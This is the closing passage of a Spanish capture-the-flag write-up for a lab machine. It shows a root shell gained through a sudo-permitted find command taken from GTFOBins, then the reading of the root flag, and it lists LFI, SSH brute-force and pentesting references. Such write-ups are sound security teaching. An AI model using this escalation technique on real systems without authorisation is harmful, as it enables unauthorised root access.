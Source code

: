 Para hacerlo, vamos a utilizar la página **GTFOBins**: 
* <a href="https://gtfobins.github.io/gtfobins/find/" target="_blank">GTFOBins: find</a>

Vamos a ejecutar el comando que nos indica para obtener una sesión del **Root**:
```bash
bananaman@Fruits:~$ sudo find . -exec /bin/sh \; -quit
# whoami
root
```
Genial, funcionó y la escalada fue muy rápida.

Ya solo obtengamos la flag que nos falta:
```bash
# cd /root
# ls
root.txt
# cat root.txt
...
```
Con esto, hemos completado la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://exploit-notes.hdks.org/exploit/web/security-risk/file-inclusion/
* https://www-invicti-com.translate.goog/learn/local-file-inclusion-lfi/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc
* https://book.hacktricks.wiki/en/generic-hacking/brute-force.html?highlight=ssh#ssh
* https://exploit-notes.hdks.org/exploit/network/protocol/ssh-pentesting/
* https://gtfobins.github.io/gtfobins/find/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>
